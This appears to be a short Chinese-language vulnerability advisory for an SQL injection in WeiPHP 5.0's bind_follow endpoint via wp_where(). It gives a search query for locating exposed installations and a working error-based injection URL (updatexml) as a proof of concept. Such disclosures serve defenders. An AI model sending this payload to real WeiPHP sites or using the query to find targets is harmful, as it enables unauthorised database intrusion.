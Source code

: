 # WeiPHP5.0 bind_follow SQL注入漏洞

## 漏洞描述

Weiphp5.0 所有使用了 wp_where() 函数并且参数可控的SQL查询均受到影响，前台后台均存在注入。

## 漏洞影响

```
Weiphp5.0
```

## 网络测绘

```
app="WeiPHP"
```

## 漏洞复现

登陆页面

![img](./images/202202162318466.png)

验证POC

```php
/public/index.php/home/index/bind_follow/?publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```